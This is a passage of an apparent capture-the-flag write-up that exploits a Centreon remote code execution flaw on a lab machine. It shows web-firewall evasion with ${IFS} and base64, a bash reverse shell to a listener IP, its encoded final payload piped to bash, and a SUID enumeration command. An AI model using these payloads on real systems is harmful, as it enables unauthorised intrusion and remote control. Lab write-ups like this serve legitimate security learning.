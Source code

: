 A quick Google research let us find
[an article about the vulnerability](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/).

If we directly use the exploit, we will see that our  payload is blocked with a
403 error. There is a WAF blocking some characters A little digging allow use
to find the allowed and blocked ones. The spaces are blocked, the `#` is blocked
but the `()` and the `$` the `;` and the `|` are allowed. We can use encode our payload
using `base64` in order to execute a payload with encoded characters.

In order to replace the spaces in our payload we must use `${IFS}`
[variable](https://bash.cyberciti.biz/guide/$IFS)

We want to use the default `bash` reverse shell:
`bash -i >& /dev/tcp/10.10.14.184/4444 0>&1`

We want to pipe it to `base64 -d` and pipe the result to bash. Then we need to
discard the rest of the command (as the argument will not be valid). As the `#`
character is blocked, we can use a `;`. Our command will be executed and then
the rest will failed with an error, but we do not care as our command will be
executed first.

Our final payload is `echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODQvNDQ0NCAwPiYx|base64${IFS}-d|bash${IFS}-;`

As the script is not reliable we do it manually directly in the interface. We
access the poller interface.

![Configuring the poller](/media/2019.12/wall_4.png)

We add a new poller with our command. We need to specify that its target
localhost.

![adding the puller](/media/2019.12/wall_5.png)

Then we export its configuration (while have a `netcat` listener running).

# Getting root

*On this box, we do not need to get user before getting root. We will grab the
user flag once we are root.*

## Reverse shell

We got a reverse shell, we start enumerating the box. While searching for SUID
file we found a SUID `screen` binary.

    :::text
    find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

Our [gtfobins](https://gtfobins.github.io/gtfobins/screen/) friend do not tell us that
there is privilege escalation with an SUID screen. Only that we can wrote files.
Which means that we can wrote files as `root` with the SUID set.
(See this [pull request to
gtfobins](https://github.com/GTFOBins/GTFOBins.github.io/pull/76) for more info.)
